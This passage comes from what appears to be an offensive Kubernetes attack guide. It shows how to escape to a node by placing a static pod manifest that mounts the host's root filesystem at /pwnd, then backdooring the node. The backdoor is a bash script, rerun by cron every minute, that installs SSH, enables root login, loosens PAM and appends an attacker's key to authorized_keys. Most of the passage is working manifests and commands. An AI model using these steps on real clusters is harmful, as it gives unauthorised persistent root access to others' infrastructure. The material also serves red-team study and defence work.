 With this information, we can probably create a [Persistence -> Static Pod](./Persistence/Static_pod.md). In order to exploit this, we are going to create a static pod with an additional hostmount, but this time we are going to mount the root of the node `/` into the directory `/pwnd`. To facilitate this we will create a new manifest that will perform these mounts in a pod called `ohnode`
```yaml
apiVersion: v1
kind: Pod
metadata:
  name: ohnode 
  namespace: kube-system 
spec:
  containers:
  - name: ohnode 
    image: nginx 
    volumeMounts:
    - name: hostmount
      mountPath: /pwnd

  volumes:
  - name: hostmount 
    hostPath:
      path: /

```

To create the static pod, we simply place this manifest into the `/etc/kubernetes/manifests` directory and the kubelet will start the pod. Looks like our pod was created in the `kube-system` namespace.

![](../images/Pasted%20image%2020240331195652.png)

Lets exec into the pod. We can see that `/pwnd` exists and upon moving into it we see the `/` of the node's file system. To make things a little simpler, `chroot /pwnd` to make sure our we don't accidentially mess up our paths and put something in the wrong directory on the pod's filesystem.

Finally, lets backdoor the node with cron so that we can SSH to it. In this example, we will assume the node has cron installed and the cron service is running(by default minikube does not). To backdoor the node and ensure SSH is running, run the following commands

```bash
# Place our backdoor script into /tmp/ssh.sh
# This will be ran by cron
cat << EOF > /tmp/ssh.sh
apt update ; apt install openssh-server -y ; mkdir -p /var/run/sshd && sed -i 's/\#PermitRootLogin prohibit-password/PermitRootLogin yes/' /etc/ssh/sshd_config && sed 's@session\s*required\s*pam_loginuid.so@session optional pam_loginuid.so@g' -i /etc/pam.d/sshd ; mkdir -p ~/.ssh && touch authorized_keys ; echo "YOUR PUBLIC KEY HERE" >> ~/.ssh/authorized_keys ; /usr/sbin/service ssh restart

# Then type EOF and press enter

# Ensure the script has execute permissions
chmod +x /tmp/ssh.sh

# This will keep adding your SSH key
# you could change `>>` to `>` but that will overwrite other keys in there.
echo "* * * * * root cd /tmp && sh ssh.sh" >> /etc/cron.d/ssh
```
